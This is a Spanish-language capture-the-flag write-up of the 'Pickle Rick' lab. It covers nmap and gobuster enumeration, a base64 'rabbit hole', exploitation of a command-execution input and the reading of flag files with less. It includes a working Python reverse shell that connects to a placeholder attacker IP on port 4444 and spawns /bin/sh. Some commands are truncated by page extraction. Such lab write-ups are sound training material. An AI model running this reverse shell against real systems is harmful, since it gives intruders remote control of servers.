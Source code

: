 # Write-Up: Pickle Rick

**Herramientas utilizadas:**
● nmap para escaneo de puertos
● gobuster para enumeración de directorios
● base64 para decodificación de strings
● python para ejecución de una reverse shell
● less para visualizar archivos restringidos
**¿Qué aprendí?**
● Importancia de la enumeración web y análisis de código fuente
● Identificación de "rabbit holes" y cómo evitarlos
● Ejecución de comandos y explotación de una shell inversa
● Métodos alternativos para leer archivos cuando comandos básicos están restringidos

## Escaneo Inicial

Lo primero que realicé fue un escaneo rápido con nmap para identificar los puertos abiertos
en la máquina objetivo:
sudo nmap -Pn -sS -p- —min-rate 5000 -n 10.10.25.29 –vvv


#### Explicación de los parámetros:

● -Pn: No realiza un ping previo (útil si ICMP está bloqueado).
● -sS: Escaneo SYN (semi sigiloso).
● -p-: Escanea todos los puertos (0-65535).
● --min-rate 5000 : Acelera el escaneo enviando al menos 5000 paquetes por
segundo.
● -n: No resuelve nombres de dominio.
● -vvv: Modo muy detallado.
Con este escaneo, descubrí que los puertos 22 (SSH) y 80 (HTTP) estaban abiertos. Para
obtener más detalles, realicé otro escaneo con -sV para identificar las versiones de los
servicios en ejecución:
sudo nmap -sV -p 22,80 10.10.25.
Se detectó que el puerto 80 estaba corriendo Apache, por lo que accedí a la dirección IP en
el navegador.
se puede visualizar esto.


## Enumeración Web

Al inspeccionar el código fuente de la página, encontré un comentario que contenía un
posible usuario. Luego, ejecuté un escaneo de directorios con gobuster para descubrir
archivos o directorios interesantes.
```
gobuster dir -u [http://10.10.215.34](http://10.10.215.34) -w
```
~/git/SecLists/Discovery/Web-Content/raft-large-files.txt -t 50
Encontre un inicio de sesión y un archivo txt, en el cual contenía el siguiente contenido


lo cual parece tonto, pero nos servira para poder inciar sesion, en el formulario de php.

## Explotación y Acceso Inicial

Me olvidé de tomar capturas de pantalla del formulario y la página principal, pero en esta
última encontré un input que ejecutaba comandos en el servidor. Además, inspeccionando
el código fuente, encontré un comentario con una cadena codificada en Base64.
usando base64 decode podremos saber el contenido desencriptado
https://www.base64decode.org/


Después de realizar este proceso cinco veces, descubrí que el mensaje decodificado decía
Rabbit hole, lo cual significa que era una trampa diseñada para distraer al atacante.
Una vez superada esta distracción, decidí probar una reverse shell en el input de
comandos:
```
import socket,subprocess,os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("ip-atacante", 4444)) # Conectamos al atacante
os.dup2(s.fileno(), 0) # Redirigimos entrada estándar
os.dup2(s.fileno(), 1) # Redirigimos salida estándar
os.dup2(s.fileno(), 2) # Redirigimos error estándar
subprocess.call(["/bin/sh", "-i"]) # Obtenemos una shell interactiva
```
## Obtención de los Ingredientes

### Primer Ingrediente


● Se encontraba en el directorio por defecto con el nombre
Sup3rS3cretPickl3Ingred.txt.
● Como cat y nano estaban deshabilitados, utilicé less para visualizar su contenido:


**Segundo Ingrediente**
● Ubicado en el directorio de rick.
**Tercer Ingrediente**
● Ubicado en el directorio root.
● Para ver su contenido, usé sudo less.


## Conclusión

Este reto me permitió practicar varias habilidades clave en pentesting:
● Enumeración con nmap y gobuster.
● Decodificación de Base64 y detección de rabbit holes.
● Ejecución de comandos y explotación de una shell inversa.
● Uso de técnicas para visualizar archivos cuando cat y nano están restringidos.
En futuras pruebas, planeo mejorar mi rapidez en la detección de distracciones y optimizar
mis técnicas de escalada de privilegios.


